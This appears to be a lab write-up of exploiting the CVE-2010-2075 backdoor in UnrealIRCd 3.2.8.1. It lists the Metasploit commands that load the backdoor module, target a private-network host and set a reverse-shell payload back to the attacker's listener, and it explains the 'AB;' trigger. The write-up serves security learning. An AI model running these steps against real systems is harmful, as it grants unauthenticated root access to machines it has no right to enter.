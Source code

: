 # UnrealIRCd Backdoor Exploit (CVE-2010-2075)

## 🔍 Summary
This exploit abuses a malicious backdoor embedded in UnrealIRCd 3.2.8.1, distributed via a compromised source archive in 2009. It allows unauthenticated remote code execution as root by sending commands prefixed with `AB;` to port 6667.

## 🛠️ Tools Used
- Metasploit Framework

## 🔢 Steps Performed

1. Launched Metasploit:
   ```bash
   msfconsole

2. Load the module:
    use exploit/unix/irc/unreal_ircd_3281_backdoor

3. Set parameters:
    set RHOSTS 192.168.6.3
    set LHOST 192.168.6.4
    set LPORT 4444
    set PAYLOAD cmd/unix/reverse
    run

4. Verified shell(see screenshot)

# Outcome

Remote command execution as root

Immediate shell without authentication

# CVE details

CVE: CVE-2010-2075

Affected Version: UnrealIRCd 3.2.8.1

Mechanism: Hardcoded backdoor triggered by AB; prefix

# MITRE ATT&CK Mapping

T1210: Exploitation of Remote Services

T1059.003: Command and Scripting Interpreter: Unix Shell